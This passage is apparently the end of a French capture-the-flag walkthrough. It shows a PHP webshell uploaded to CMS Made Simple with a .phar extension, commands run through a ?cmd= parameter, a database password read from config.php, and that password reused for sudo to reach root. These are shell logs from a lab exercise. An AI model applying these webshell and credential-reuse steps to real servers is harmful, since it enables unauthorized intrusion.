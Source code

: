 En regardant le code on s'apperçoit qu'il utilise simplement l'extension `.phar`. Je fais donc de même pour uploader un webshell et ça passe :)

J'ai ainsi une RCE à l'adresse `/install/uploads/shell.phar?cmd=id` qui me répond `uid=1001(christophe) gid=1001(christophe) groups=1001(christophe),27(sudo)`

## Quick et flute

On obtient le flag de l'utilisateur :

```bash
christophe@christophe:/home/christophe$ cat flag.txt 
90daf3db12d09f5
```

et on retrouve dans mot de passe dans la config du CMS (la configuration initiale) :

```php
christophe@christophe:/var/www/html$ cat config.php 
<?php
# CMS Made Simple Configuration File
# Documentation: https://docs.cmsmadesimple.org/configuration/config-file/config-reference
#
$config['dbms'] = 'mysqli';
$config['db_hostname'] = 'localhost';
$config['db_username'] = 'cmsms';
$config['db_password'] = 'thisisaSuperlongandh4rdpassword-';
$config['db_name'] = 'cmsms_db';
$config['db_prefix'] = 'cms_';
$config['timezone'] = 'Europe/Berlin';
```

Avec le mot de passe on peut sudo et c'est finit :

```bash
christophe@christophe:/var/www/html$ sudo -l
[sudo] password for christophe: 
Matching Defaults entries for christophe on christophe:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User christophe may run the following commands on christophe:
    (ALL : ALL) ALL
```

```bash
christophe@christophe:/home/christophe$ sudo su
root@christophe:/home/christophe# cd /root
root@christophe:~# ls
flag.txt
root@christophe:~# cat flag.txt 
4f4c08c06145ca96b
```

Un peu déçu, j'ai passé beaucoup de temps sur la faille SQL et au final j'ai installé un CMS et exécuté une commande sudo...

*Publié le 17 décembre 2022*

